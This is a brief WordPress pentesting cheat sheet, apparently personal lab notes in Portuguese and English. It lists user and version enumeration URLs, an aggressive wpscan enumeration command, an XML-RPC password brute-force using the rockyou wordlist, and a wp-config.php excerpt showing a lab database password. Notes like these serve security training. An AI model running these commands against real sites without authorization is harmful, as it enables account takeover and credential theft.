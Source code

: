 
## wordpress
versão do wordpress
```
URL/readme.html
```
username in .json file
```
URL/wp-json/wp/v2/users/
```
 - https://wpscan.com/wordpresses/
 
 wordpress
```
wpscan --url URL --enumerate ap,at,dbe,cb,u --detection-mode aggressive
```
Command Breakdown:
- ap = All Plugins
- at = All Themes
- dbe = Database Exports
- cb = Config Backups
- u = Enumerate Users
- Detection-Mode = Since we’re not worried about being detected we can use aggressive mode which occasionally delivers more results at the cost of generating more noise.

bruteforce de senhas com `XML-RPC` 
```
wpscan --url URL --usernames kwheel,bjoel --passwords ~/wordlist/rockyou.txt
```
http://blog.thm/xmlrpc.php
	XML-RPC server accepts POST requests only.


arquivo de configuração `wp-config.php`
```
/wp-config.php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'blog');


/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');

```

path dos plugins/temas
```
/wp-content
```

**estrutura do banco de dados:**
- https://wp-staging.com/docs/the-wordpress-database-structure/
- 
tabelas do banco de dados wordpress
```
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
```